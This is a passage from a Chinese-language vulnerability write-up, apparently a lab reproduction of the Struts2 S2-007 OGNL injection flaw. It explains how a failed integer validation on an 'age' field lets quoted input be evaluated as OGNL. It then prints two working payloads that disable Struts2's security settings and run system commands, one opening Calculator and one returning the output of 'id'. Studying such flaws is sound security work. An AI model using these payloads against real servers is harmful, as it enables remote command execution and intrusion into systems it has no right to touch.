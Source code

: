 然后配置有 UserAction-validation.xml：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
    "-//OpenSymphony Group//XWork Validator 1.0//EN"
    "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>
```

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。



因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload（**弹计算器，无法在本项目环境下运行**）：

```plain
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Exploit

[@rickgray ]() 在原文中只给了弹计算器的POC，我给出执行任意代码的EXP： 

```plain
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```



将Exp传入可以利用的输入框（age），得到命令执行结果：

![img](assets/1670311707942-27f95b68-e223-412d-9e61-87675fdce9a7.jpeg)
